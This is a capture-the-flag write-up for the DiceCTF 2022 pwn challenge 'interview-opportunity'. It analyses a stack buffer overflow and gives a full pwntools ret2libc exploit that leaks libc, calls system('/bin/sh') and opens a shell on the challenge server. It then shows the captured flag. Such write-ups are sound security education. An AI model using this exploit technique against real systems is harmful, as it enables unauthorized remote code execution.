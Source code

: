 # DiceCTF 2022

## pwn/interview-opportunity

> Good luck on your interview...
> 
> `nc mc.ax 31081`
>
> Author: smoothhacker
> 
> [`interview-opportunity`](interview-opportunity) [`libc.so.6`](libc.so.6)

Tags: _pwn_ _x86-64_ _bof_ _rop_ _remote-shell_


## Summary

Standard babyrop; leak libc, score second pass, get shell.


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

No PIE, no canary, easy BOF/ROP.


### Ghidra Decompile

```c
undefined8 main(undefined4 param_1,undefined8 param_2)
{
  char local_22 [10];
  undefined8 local_18;
  undefined4 local_c;
  
  local_18 = param_2;
  local_c = param_1;
  env_setup();
  printf("Thank you for you interest in applying to DiceGang. We need great pwners like you to continue our traditions and competition against perfect blue.\n");
  printf("So tell us. Why should you join DiceGang?\n");
  read(0,local_22,0x46);
  puts("Hello: ");
  puts(local_22);
  return 0;
}
```

`read(0,local_22,0x46);` is your vulnerability.  Reading `0x46` bytes into a buffer only `0x22` bytes (`local_22`) from the return address on the stack.  Classic BOF/ROP fodder.

> I've done too many write ups for this type of challenge, please read one of them for details, e.g. [roprop](https://github.com/datajerk/ctf-write-ups/tree/master/darkctf2020/roprop) and see [INDEX.md](https://github.com/datajerk/ctf-write-ups/blob/master/INDEX.md) for a complete list.


## Exploit

```python
#!/usr/bin/python3

from pwn import *

binary = context.binary = ELF('./interview-opportunity', checksec=False)

if args.REMOTE:
    libc = ELF('./libc.so.6', checksec=False)
    p = remote('mc.ax', 31081)
else:
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
    p = process(binary.path)

pop_rdi = binary.search(asm('pop rdi; ret')).__next__()

payload  = b''
payload += 0x22 * b'A'
payload += p64(pop_rdi)
payload += p64(binary.got.puts)
payload += p64(binary.plt.puts)
payload += p64(binary.sym.main)

p.sendline(payload)
for i in range(4): p.recvline()

_ = p.recv(6)
puts = u64(_ + b'\0\0')
libc.address = puts - libc.sym.puts
log.info('libc.address: {x}'.format(x = hex(libc.address)))

payload  = 0x22 * b'A'
payload += p64(pop_rdi + 1)
payload += p64(pop_rdi)
payload += p64(libc.search(b'/bin/sh').__next__())
payload += p64(libc.sym.system)

p.sendlineafter(b'DiceGang?\n',payload)
for i in range(2): p.recvline()
p.interactive()
```

Output:

```bash
# ./exploit.py REMOTE=1
[+] Opening connection to mc.ax on port 31081: Done
[*] libc.address: 0x7f0a7a44d000
[*] Switching to interactive mode
$ cat flag.txt
dice{0ur_f16h7_70_b347_p3rf3c7_blu3_5h4ll_c0n71nu3}
```